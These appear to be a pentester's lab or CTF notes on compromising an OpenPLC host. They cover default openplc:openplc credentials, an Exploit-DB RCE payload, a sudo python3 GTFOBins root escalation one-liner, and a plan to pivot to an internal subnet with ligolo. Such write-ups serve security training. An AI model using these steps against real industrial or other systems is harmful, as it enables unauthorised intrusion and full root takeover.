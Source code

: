 
![[Pasted image 20240516225118.png]]

OpenPLC uses default creds as openplc : openplc

![[Pasted image 20240516225154.png]]

Lets look into this exploit 

https://www.exploit-db.com/exploits/49803?source=post_page-----33b501b69579--------------------------------

![[Pasted image 20240516225904.png]]
![[Pasted image 20240516230014.png]]

Edit the payload the reflect the .st file

delete the .st that it creates but do not delete the blank_program.st and start the PLC to execute the shell

```rust
sudo -l
Matching Defaults entries for openplc on web02:
    env_reset, mail_badpass,
    secure_path=/opt/jdk-11/bin\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User openplc may run the following commands on web02:
    (ALL : ALL) NOPASSWD: /usr/bin/python3

```
using GTFO Bins
```rust
openplc@web02:/home/openplc/p3ta$ sudo python3 -c 'import os; os.system("/bin/sh")'
<$ sudo python3 -c 'import os; os.system("/bin/sh")'
whoami
root

```

Identifying another port 
```rust
root@web02:/home/openplc/p3ta# ifconfig                                         
ifconfig                                                                        
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                    
        inet 172.16.0.3  netmask 255.255.255.0  broadcast 172.16.0.255          
        ether 00:50:56:b0:31:09  txqueuelen 1000  (Ethernet)                    
        RX packets 18253  bytes 17396256 (16.5 MiB)                             
        RX errors 0  dropped 23  overruns 0  frame 0                            
        TX packets 14524  bytes 2472142 (2.3 MiB)                               
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0              
                                                                                
ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                    
        inet 172.17.0.3  netmask 255.255.255.0  broadcast 172.17.0.255          
        ether 00:50:56:b0:29:87  txqueuelen 1000  (Ethernet)                    
        RX packets 79  bytes 7428 (7.2 KiB)                                     
        RX errors 0  dropped 29  overruns 0  frame 0                            
        TX packets 0  bytes 0 (0.0 B)                                           
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0              
                                                                                
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536                                    
        inet 127.0.0.1  netmask 255.0.0.0                                       
        loop  txqueuelen 1000  (Local Loopback)                                 
        RX packets 770  bytes 42677 (41.6 KiB)                                  
        RX errors 0  dropped 0  overruns 0  frame 0                             
        TX packets 770  bytes 42677 (41.6 KiB)                                  
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0              

```

172.17.0.0 lets pivot with ligolo